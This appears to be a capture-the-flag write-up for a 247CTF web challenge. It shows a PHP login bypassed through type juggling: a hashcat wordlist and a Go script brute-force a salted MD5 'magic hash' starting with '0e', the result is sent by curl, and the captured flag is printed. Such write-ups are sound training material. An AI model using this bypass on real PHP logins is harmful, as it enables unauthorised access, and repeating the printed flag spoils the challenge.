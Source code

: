 # php-juggling-brute-force
247ctf.com's web challenge - Compare The Pair - PHP Juggling challenge
`Description: 
Can you identify a way to bypass our login logic? MD5 is supposed to be a one-way function right?`

```php
247CTF{76fbce3909b3129536bb396fea3a9879} 
<?php  
require_once('flag.php');  
$password_hash = "0e902564435691274142490923013038";  
$salt = "f789bbc328a3d1a3";  
if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){  
echo $flag;  
}  
echo highlight_file(__FILE__, true);  
?>
```

First thing I did is to create a `pass.txt` file that has compensation of 7 length charachters.

```bash
yas3r@linux:~/Desktop/hashcat-5.1.0$ ./hashcat64.bin -a 3 -m 0 -1 ?l -2 ?d --stdout 1?1?1?1?1?1?l > ~/Desktop/pass.txt
```
So the main thing to do is to create a string of `salt` and the `password` and then compare them to the stored password.
It is obvious there a php juggling vuln `$var1 == $var2`

### GoLang 

```go
package  main
import  (
	"bufio"
	"crypto/md5"
	"encoding/hex"
	"fmt"
	"math/rand"
	"os"
	"regexp"
	"time"
)

var  (
	salt string  =  "f789bbc328a3d1a3"
	path string  =  "./pass.txt"
)

func  main()  {
	readLine(path)
}

func  readLine(path string)  {
	inFile, err := os.Open(path)
		if err !=  nil  {
		fmt.Println(err.Error()  +  `: `  + path)
		return
	}
	defer inFile.Close()
	scanner := bufio.NewScanner(inFile)
		for scanner.Scan()  {
			pass := scanner.Text()  // the line
			word := fmt.Sprintf("%s%s", salt, pass)
			hashed :=  GetMD5Hash(word)
			fmt.Printf("[+] %s: %s\n", word, hashed)
			match, _ := regexp.MatchString("^0e[0-9]{30}", hashed)
			if match {
				fmt.Printf("[+] Found it: %s", pass)
				break
			}
		}
}

  
func  GetMD5Hash(text string)  string  {
	hash := md5.Sum([]byte(text))
	return hex.EncodeToString(hash[:])
}
```


### Result
```bash
yas3r@linux[$]$ go run main.go
			*** DELETED ***
[+] f789bbc328a3d1a31ixwlci: 145d5331c3c49e2cbaf7bdc3331af43a
[+] f789bbc328a3d1a31ewwlci: fbc57cbce4ecca92b6699377d9925f4b
[+] f789bbc328a3d1a31ogwlci: 1884259583936c1a8c257f9ee4cc093e
[+] f789bbc328a3d1a31vtwlci: eb3a79bee6067015dcf12fecbdfe0654
[+] f789bbc328a3d1a31yiwlci: 17ed4e0a013bb819a7c7063aea818feb
[+] f789bbc328a3d1a31zwwlci: b6d172ec57df55799d8ac93623667aa7
[+] f789bbc328a3d1a31uywlci: 36ad482077a739131d051fa9ad7eaba4
[+] f789bbc328a3d1a31xkwlci: 0e398583359856907339487099436498
[+] Found it: 1xkwlci  
```

### Flag
`curl https://d25fcfd9f18adc53.247ctf.com/?password=1xkwlci`

```php
247CTF{76fbce3909b3129536bb396fea3a9879} 
<?php  
	require_once('flag.php');  
	$password_hash = "0e902564435691274142490923013038";  
	$salt = "f789bbc328a3d1a3";  
	if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){  
	echo $flag;  
	}  
	echo highlight_file(__FILE__, true);  
?>
```

